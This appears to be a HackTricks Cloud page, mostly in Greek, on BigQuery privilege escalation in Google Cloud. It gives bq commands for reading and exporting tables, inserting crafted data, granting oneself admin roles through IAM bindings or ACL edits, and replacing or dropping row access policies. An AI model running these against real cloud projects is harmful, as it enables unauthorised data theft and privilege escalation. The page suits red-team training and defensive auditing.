 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

Για περισσότερες πληροφορίες σχετικά με το BigQuery, ελέγξτε:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

Διαβάζοντας τις πληροφορίες που είναι αποθηκευμένες μέσα σε έναν πίνακα BigQuery, μπορεί να είναι δυνατό να βρείτε **ευαίσθητες πληροφορίες**. Για να αποκτήσετε πρόσβαση στις πληροφορίες, οι άδειες που απαιτούνται είναι **`bigquery.tables.get`**, **`bigquery.jobs.create`** και **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Export data

Αυτή είναι μια άλλη μέθοδος για να αποκτήσετε πρόσβαση στα δεδομένα. **Εξάγετε το σε ένα cloud storage bucket** και **κατεβάστε τα αρχεία** με τις πληροφορίες.\
Για να εκτελέσετε αυτήν την ενέργεια απαιτούνται οι εξής άδειες: **`bigquery.tables.export`**, **`bigquery.jobs.create`** και **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Εισαγωγή δεδομένων

Μπορεί να είναι δυνατό να **εισαγάγετε ορισμένα αξιόπιστα δεδομένα** σε έναν πίνακα Bigquery για να εκμεταλλευτείτε μια **ευπάθεια σε κάποιο άλλο σημείο.** Αυτό μπορεί να γίνει εύκολα με τα δικαιώματα **`bigquery.tables.get`**, **`bigquery.tables.updateData`** και **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό το προνόμιο για να **δώσει στον εαυτό του επιπλέον δικαιώματα** πάνω σε ένα σύνολο δεδομένων BigQuery:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Αυτή η άδεια επιτρέπει να **ενημερώσετε την πρόσβασή σας σε ένα BigQuery dataset τροποποιώντας τα ACLs** που υποδεικνύουν ποιος μπορεί να έχει πρόσβαση σε αυτό:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό το προνόμιο για να **δώσει στον εαυτό του επιπλέον δικαιώματα** πάνω σε έναν πίνακα BigQuery:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Σύμφωνα με τα έγγραφα, με τις αναφερόμενες άδειες είναι δυνατή η **ενημέρωση μιας πολιτικής γραμμής.**\
Ωστόσο, **χρησιμοποιώντας το cli `bq`** χρειάζεστε μερικά ακόμη: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Είναι δυνατόν να βρείτε το ID φίλτρου στην έξοδο της καταμέτρησης πολιτικών γραμμής. Παράδειγμα:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Αν έχετε **`bigquery.rowAccessPolicies.delete`** αντί για `bigquery.rowAccessPolicies.update`, μπορείτε επίσης απλά να διαγράψετε την πολιτική:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Μια άλλη πιθανή επιλογή για να παρακάμψετε τις πολιτικές πρόσβασης σε γραμμές θα ήταν να αλλάξετε απλώς την τιμή των περιορισμένων δεδομένων. Εάν μπορείτε να δείτε μόνο όταν το `term` είναι `Cfba`, απλώς τροποποιήστε όλα τα αρχεία του πίνακα ώστε να έχουν `term = "Cfba"`. Ωστόσο, αυτό αποτρέπεται από το bigquery.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
